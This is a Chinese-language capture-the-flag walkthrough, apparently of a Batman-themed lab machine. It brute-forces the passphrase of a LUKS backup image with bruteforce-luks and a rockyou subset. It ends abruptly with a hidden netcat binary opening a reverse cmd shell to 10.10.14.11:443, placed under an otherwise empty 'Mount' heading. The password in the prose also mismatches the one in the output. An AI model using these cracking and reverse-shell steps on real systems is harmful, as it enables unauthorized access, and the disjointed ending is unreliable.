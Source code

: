 Users 中只存放了一些默认用户和访客用户的文件，而 BatShare 中包含了一个压缩包appserver.zip同时将其下载下来.

## LUKS Image

解压zip,其中包含一个文本和一个加密的磁盘映像.

```
root@kali# unzip appserver.zip
Archive:  appserver.zip
  inflating: IMPORTANT.txt
  inflating: backup.img
root@kali# cat IMPORTANT.txt
Alfred, this is the backup image from our linux server. Please see that The Joker or anyone else doesn't have unauthenticated access to it. - Bruce                                                                        
root@kali# file backup.img
backup.img: LUKS encrypted file, ver 1 [aes, xts-plain64, sha256] UUID: d931ebb1-5edc-4453-8ab1-3d23bb85b38e
```

> Alfred, this is the backup image from our linux server. Please see that The Joker or anyone else doesn't have unauthenticated access to it. - Bruce                                                                        
> 
> Alfred，这是我们linux服务器的备份映像。请注意，小丑或其他任何人都没有未经验证的访问权限。-布鲁斯

### 暴力破解 Luks 密码

> LUKS（Linux 统一密钥设置(Linux Unified Key Setup)）是一个用于Linux系统上磁盘加密的标准。Luks允许用户在硬盘或分区级别上加密数据，并且只有在提供了正确的解密密钥后才能访问数据。使用 ***<u>bruteforce-luks</u>*** 对密码进行爆破.

```
root@kali# grep batman /usr/share/wordlists/rockyou.txt >  test.txt
root@kali# apt install bruteforce-luks
root@kali# bruteforce-luks -t 10 -f test.txt backup.img -v 60
...
Tried passwords: 40
Tried passwords per second: 1.333333
Last tried password: batman27

Tried passwords: 60
Tried passwords per second: 1.395349
Last tried password: batman82

Password found: batmanforever
```

> -t 10   使用 10 个线程
> 
> -f test.txt  要尝试的密码列表
> 
> -v 60  每 60 秒打印一次进度

成功跑出密码为：batmanforver

### Mount


[localhost]: PS C:\Users\Batman\Documents> whoami
[localhost]: PS C:\Users\Batman\Documents> \windows\System32\spool\drivers\color\n.exe -e cmd 10.10.14.11 443 